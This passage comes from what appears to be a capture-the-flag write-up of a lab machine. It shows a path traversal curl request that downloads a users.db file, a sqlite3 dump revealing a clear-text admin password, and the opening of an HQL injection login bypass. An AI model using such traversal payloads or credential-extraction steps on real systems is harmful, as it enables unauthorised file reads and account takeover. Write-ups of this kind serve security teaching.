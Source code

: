 I’ll grab `auth.py` the same way:

[![image-20211106071214604](https://0xdfimages.gitlab.io/img/image-20211106071214604.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20211106071214604.png)

This file shows connecting to a `users.db` SQLite file.

I’ll download it with `curl`:

```

oxdf@hacky$ curl --path-as-is -o users.db 'http://10.10.11.127/admin/view/../../../../home/flask/app/users.db'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  8192  100  8192    0     0   145k      0 --:--:-- --:--:-- --:--:--  145k

```

There’s a single table with a single row with an admin user and a clear text password:

```

oxdf@hacky$ sqlite3 users.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> select * from users;
0|admin|u_will_never_guess_this_password

```

With this, I can log into the site:

![image-20211105063756178](https://0xdfimages.gitlab.io/img/image-20211105063756178.png)

And now visiting `/admin` returns a 200, and I can turn off my rule in Burp re-writing 302 redirects.

### HQL Injection

#### Identify

If I add a `'` to my username and try to log into the GlassFish site, it crashes:

![image-20211102161521015](https://0xdfimages.gitlab.io/img/image-20211102161521015.png)

Some googling leads to [Hibernate](https://hibernate.org/). Hibernate [is an object oriented query language](https://www.tutorialspoint.com/hibernate/hibernate_query_language.htm) (HQL), similar to SQL, but using objects / properties rather than tables, rows, and columns.

#### Login Bypass Failure #1

At this point I can guess that the query on the server looks something like:

```

select * from users where uid='{uid}' and password='{password}' and fingerprint_id='{fingerprint_id}';

```
